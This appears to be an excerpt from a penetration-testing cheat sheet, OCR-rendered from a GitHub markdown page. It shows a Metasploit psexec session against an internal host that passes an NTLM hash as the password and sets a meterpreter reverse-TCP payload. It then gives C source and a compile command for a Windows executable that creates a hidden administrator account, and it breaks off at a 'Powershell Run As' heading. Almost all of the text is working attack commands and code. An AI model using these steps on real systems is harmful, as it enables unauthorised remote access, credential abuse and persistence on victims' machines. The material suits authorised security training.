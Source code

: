 ```
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(windows/smb/psexec) > set rhosts 10.10.0.100
rhosts => 10.10.0.100

msf5 exploit(windows/smb/psexec) > set smbuser admin2

smbuser => admin2

msf5 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

smbpass => aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

```

### Scripts

#### Useradd

````
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile Exploit
i686-w64-mingw32-gcc -o useradd.exe useradd.c
````

#### Powershell Run As
